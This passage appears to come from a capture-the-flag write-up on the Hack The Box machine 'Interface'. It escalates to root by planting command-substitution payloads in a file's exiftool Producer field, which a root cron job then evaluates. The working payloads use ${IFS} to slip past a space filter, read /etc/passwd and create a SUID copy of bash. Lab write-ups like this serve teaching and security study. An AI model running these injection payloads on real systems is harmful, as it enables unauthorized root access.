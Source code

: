 The POC exploit payload in the post that gives execution is
`x[$(cat /etc/passwd > /proc/$$/fd/1)]`. In that one, it's passing in to
a webserver, and having it print `passwd` into the file descriptor 1,
which should be STDOUT, which will then come back as the result of
`curl`. I don't get to see the STDOUT results of this script running, so
I'll have to try something different, like `touch /tmp/0xdf`.

To do this, I'll need to create a file in `/tmp`, and give it metadata
for a `Producer` that is my payload:



    www-data@interface:/tmp$ touch test
    www-data@interface:/tmp$ exiftool -Producer='x[$(touch /tmp/0xdf)]' test  
        1 image files updated



Unfortunately, this didn't execute for me. However, with some guessing
that the space may be the issue, I'll try using `${IFS}` as space (I've
used this before many times, including on
[Rope](/htb-rope.md#obsticle-2-command) and
[Wall](/htb-wall.md#waf-testing)), and it works!



    www-data@interface:/tmp$ touch test
    www-data@interface:/tmp$ exiftool -Producer='x[$(touch${IFS}/tmp/0xdf)]' test  
        1 image files updated



The next time the cron runs:



    www-data@interface:/tmp$ ls -l 0xdf
    -rw-r--r-- 1 root root 0 Feb 13 20:36 0xdf



Another strategy would be to just write a Bash script in `/tmp` or
`/dev/shm`, set it as executable, and have that be the full payload:
`x=[$(/tmp/0xdf.sh)]`.

#### Shell

I'll update my payload to create a copy of `bash` set as SUID:



    www-data@interface:/tmp$ touch test
    www-data@interface:/tmp$ exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/0xdf;chmod${IFS}4777${IFS}/tmp/0xdf)]



When the cron runs, it's there:



    www-data@interface:/tmp$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1113504 Feb 13 20:40 /tmp/0xdf

